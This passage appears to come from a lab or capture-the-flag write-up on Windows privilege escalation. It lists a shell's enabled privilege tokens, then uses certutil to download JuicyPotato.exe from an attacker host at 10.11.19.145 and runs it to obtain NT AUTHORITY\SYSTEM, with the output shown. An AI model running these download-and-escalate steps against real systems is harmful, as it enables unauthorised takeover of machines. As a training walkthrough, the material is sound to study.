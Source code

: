 Check privilege tokens

```bash
C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
SeAssignPrimaryTokenPrivilege   Replace a process level token             Disabled
SeLockMemoryPrivilege           Lock pages in memory                      Enabled
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeTcbPrivilege                  Act as part of the operating system       Enabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Enabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeCreatePermanentPrivilege      Create permanent shared objects           Enabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled
SeAuditPrivilege                Generate security audits                  Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled
SeTimeZonePrivilege             Change the time zone                      Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```


### Juicy Potato

Since `SeImpersonatePrivilege` and `SeAssignPrimaryTokenPrivilege` tokens are available, we can use potato methods

**Godpotato** and **SweetPotato** did not work on this machine (perhaps the system is too old)

> [Writeup](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) about potatos

```bash
C:\>certutil -urlcache -split -f http://10.11.19.145/JuicyPotato.exe juicy.exe
certutil -urlcache -split -f http://10.11.19.145/JuicyPotato.exe juicy.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.

C:\>juicy -p cmd.exe -a "/c whoami > C:\who.txt" -t * -l 55143
juicy -p cmd.exe -a "/c whoami > C:\who.txt" -t * -l 55143
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 55143
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```